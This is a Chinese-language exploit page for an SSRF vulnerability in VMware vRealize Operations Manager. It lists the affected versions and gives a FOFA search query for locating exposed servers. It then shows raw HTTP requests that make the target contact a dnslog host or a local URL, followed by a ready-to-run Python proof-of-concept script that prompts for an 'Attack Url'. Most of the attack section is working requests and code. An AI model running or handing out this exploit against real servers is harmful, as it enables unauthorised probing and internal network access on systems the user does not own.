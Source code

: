 <languages  />

漏洞影响
--------

    vRealize_operations_manager: 8.0.0, 8.0.1, 8.3.0, 8.1.0, 8.1.1, 8.2.0, 7.5.0

    cloud_foundation: 4.x 3.x

    vRealize_suite_lifecycle_manager: 8.x

FOFA
----

    title="vRealize Operations Manager"

漏洞利用
--------

发送如下请求包：

    POST /casa/nodes/thumbprints HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Content-Type: application/json;charset=UTF-8
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Content-Length: 24


    ["eheeyd.dnslog.cn"]

    POST /casa/nodes/thumbprints HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Content-Type: application/json;charset=UTF-8
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Content-Length: 24


    ["127.0.0.1:443/ui"]

POC
---

    import requests
    import sys
    import random
    import re
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
        print('+  \033[34mVersion: VMware vRealize Operations Manager                         \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+  \033[36mDnslog      >>> xxx.dnslog.com                                     \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url, v):
        vuln_url = target_url + "/casa/nodes/thumbprints"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/json;charset=UTF-8"
        }
        data = '["{}"]'.format(Dnslog)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=10)
            if response.status_code == 200 :
                print("\033[32m[o] 目标 {} 可能存在SSRF漏洞,请检查 Dnslog 响应 \033[0m".format(target_url, vuln_url))
            else:
                print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
        except Exception as e:
            print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
        Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
        POC_1(target_url, Dnslog)

参考
----

<https://mp.weixin.qq.com/s/fAYvOdmZO-daxe5FUI8wQA>